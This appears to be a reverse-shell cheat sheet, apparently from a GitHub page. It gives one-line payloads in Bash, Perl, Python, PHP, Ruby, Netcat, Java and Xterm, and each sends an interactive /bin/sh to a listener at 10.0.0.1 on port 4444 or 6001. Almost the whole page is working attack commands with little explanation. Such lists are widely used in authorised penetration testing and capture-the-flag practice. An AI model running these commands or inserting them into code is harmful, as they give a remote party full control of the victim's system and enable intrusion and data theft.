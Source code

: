 ### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```php
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```bash
nc -e /bin/sh 10.0.0.1 4444
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
Xterm will connect to you on port 6001.
```bash
xterm -display 10.0.0.1:1
```

To receive the shell on your host:
```bash
xhost +10.0.0.1
xnest :1
```
